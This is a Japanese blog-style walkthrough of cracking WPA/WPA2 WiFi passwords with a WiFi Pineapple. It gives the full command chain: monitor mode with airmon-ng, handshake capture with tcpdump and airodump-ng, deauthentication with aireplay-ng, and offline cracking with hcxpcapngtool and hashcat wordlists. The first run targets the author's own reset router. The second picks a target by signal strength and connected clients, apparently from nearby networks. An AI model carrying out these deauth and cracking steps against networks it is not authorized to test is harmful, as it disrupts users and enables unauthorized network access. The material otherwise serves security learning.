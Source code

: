 ```yaml
---
title: "WPA/WPA2 Crack with WiFi Pineapple"
date: "2025-02-07 00:00:00 +0900"
categories: [Hacking, WiFi]
tags: [Hak5, WiFi-Pineapple, WPA, WPA2, WiFi Hacking]
---
```


# Make Most of WiFi Pineapple

- ツールを活用しながら学んでいく。

## 準備

- ポケットWiFi(中古)を工場出荷時に戻す
  - ![alt text](../assets/images/Screenshot_2025-02-06_143218.png)
- SSID / PWを再設定

## 機器

- ターゲット: PoketWiFi(SSID:1337_WiFI)
- 接続デバイス: Android スマホ
- Laptop: WifiPineappleとの接続とWebUI操作
- WifiPineapple

## WPA/WPA2 Crack

### ステップ
1. Recon（ネットワークスキャン） → WiFiの情報収集
2. Deauthentication Attack（Deauth攻撃） → クライアントを強制切断してハンドシェイクを取得
3. Handshake Capture（ハンドシェイクキャプチャ） → WPA/WPA2の認証データを取得
4. Password Cracking（パスワードクラック） → 辞書攻撃・総当たり攻撃でパスワード解析

### 実践_01

1. **Recon: ターゲット確認**  
   ![alt text](../assets/images/Screenshot_2025-02-06_151547.png)

2. **Deauth: クライアントの強制切断を確認**  
   ![alt text](../assets/images/Screenshot_2025-02-06_154447.png)  
   - クライアント（このWiFiに接続しているAndroidスマホ）の情報は見えない  

3. **Handshake Capture（ハンドシェイクキャプチャ）: tcpdumpモジュールを使用**  
   
   #### 3.1 インターフェースをモニターモードに変更  
   - WiFi PineappleにSSHで接続:  
     ```sh
     ssh root@172.16.42.1
     ```
   - モニターモード（Monitor Mode）を有効化:  
     ```sh
     airmon-ng start wlan1
     ```
     ![alt text](../assets/images/Screenshot_2025-02-06_170338.png)  
     - `wlan1` に対してモニターモードの仮想インターフェース `wlan1mon` が作成されていることが分かる。
   - MMとして利用できるインターフェースを特定:  
     ```sh
     iwconfig
     ```
     ![alt text](../assets/images/Screenshot_2025-02-06_165352.png)  
     - `wlan2` はクライアントモード（Managed Mode）で利用中：WiFi Pineappleが「WiFiルーターに接続する側」として動作する  
     - `wlan0-1` はアクセスポイントモード（AP Mode / Master Mode）で利用中：他のデバイスを接続させるための偽WiFi（Evil Twin Attack など）を作るときに使う  

   #### 3.2 tcpdumpモジュールをインストール  
   - `Modules` >> `install`
   - `Modules` >> `tcpdump` >> `install dependencies`

   #### 3.3 実際にキャプチャ  
   - Recon: ターゲットの情報を取得
     ![alt text](../assets/images/Screenshot_2025-02-06_172042.png)
   - wlan1mon をターゲットAPのチャネルに固定:
     ```sh
     iwconfig wlan1mon channel 11
     ```
   - `tcpdump` を使用してパケットをキャプチャ: -w は保存先でもしusbに保存したい場合: `tcpdump -i wlan1mon -w /sd/handshake.pcap` 
     ```sh
     tcpdump -i wlan1mon -w /root/handshake.pcap
     ```
   - UIでDeauth実行: コマンドで実行する場合: `aireplay-ng --deauth 10 -a <ターゲットAPのMACアドレス> wlan1mon`
   - Cnrl + C でパケットキャプチャを停止。
     ![alt text](../assets/images/Screenshot_2025-02-06_172921.png)
   - 取得したデータをLaptopに転送: `scp root@172.16.42.1:/root/handshake.pcap C:\Users\<YourUsername>\Desktop\`
4. Password Cracking（パスワードクラック） → 辞書攻撃・総当たり攻撃でパスワード解析
   - Wiresharkでデータを開いてキャプチャをフィルタリングして WPA ハンドシェイクパケットを探す: `eapol`でフィルター
     ![alt text](../assets/images/Screenshot_2025-02-06_175138.png)
   - WPA2ハンドシェイクで、パスワードを解析するために必要なデータ。File → Save As → test.cap として保存
   - Hashcatを利用: 3min
   - .pcap ファイル ⇢ .hccapxファイルへ: `hcxpcapngtool -o handshake.hccapx capture.pcap`
   - パスワードクラック: `hashcat -m 22000 -a 0 -w 3 handshake.hccapx /usr/share/wordlists/rockyou.txt`
   - ![alt text](../assets/images/2025-02-07_16-49.png)

### 実践_02
※ wlan2が認識されないバグがあるため、アダプターを何度か抜いたりして認識させる: `iwconfig`

1. **Recon on WiFi Pineapple**  
   ![alt text](../assets/images/Screenshot_2025-02-07_215242.png)

2. **ターゲットの選定:**  
   - WPA2 PSK (CCMP) や WPA Mixed PSK (CCMP) を利用している。
   - 電波強度が -60dBm 前後のものを選択。
   - クライアント（接続デバイス）がいることを確認。

3. **モニターモード有効化とネットワーク監視:**  
   ```sh
   airmon-ng start wlan1
   airodump-ng --bssid XX:XX:XX:XX:XX:XX -c 7 -w /sd/handshake wlan1mon
   ```
   ![alt text](../assets/images/Screenshot_2025-02-07_214904.png)

4. **キャプチャ:**  
   ```sh
   tcpdump -i wlan1mon -w /sd/practice7.pcap
   ```

5. **Deauth攻撃:**  
   ```sh
   aireplay-ng --deauth 1 -a XX:XX:XX:XX:XX:XX -c YY:YY:YY:YY:YY:YY wlan1mon
   ```
  - YY: Frameが多い方のデバイスを選択。通信が多いので、キャプチャできるチャンスが増える。
  - 何度も間隔を開けて行う。Message 1 of 4 - Message 4 of 4 までのハンドシェイクのキャプチャを取得しないといけないため。
  - 4つ全て取得できるまで何度も。確認はwireshrk。

6. **キャプチャファイルの移動:**  
   ```sh
   scp root@172.16.42.1:/sd/practice.pcap C:\Users\ebisu\Desktop\
   ```

7. **Wiresharkで `eapol` を確認し保存** 
   Message 1 of 4 - Message 4 of 4 全て含まれていたら成功。

8. **Hashcatでパスワードクラック:**: 失敗  
   ```sh
   hcxpcapngtool -o handshake.hccapx practice7.pcap #.pcap ファイル ⇢ .hccapxファイルへ
   hashcat -m 22000 -a 0 -w 3 handshake.hccapx /usr/share/wordlists/rockyou.txt
   ```
   ![alt text](../assets/images/2025-02-07_22-10.png)

9. **別のパスワードリストを使用:**: 成功  
   別のWiFI用のPWリストを取得: [WPA-Dictionary](https://github.com/TKanX/WPA-Dictionary)

   ```sh
   cat /media/.../WPA-password-dictionary/*.txt > /media/.../WPA-password-dictionary/merged_wordlist.txt #フォルダに数多くの.txtファイルがあったので１つにまとめる
   hashcat -m 22000 -a 0 -w 3 practice7.hccapx /media/.../WPA-password-dictionary/merged_wordlist.txt
   ```
   ![alt text](../assets/images/2025-02-08_07-28.png)


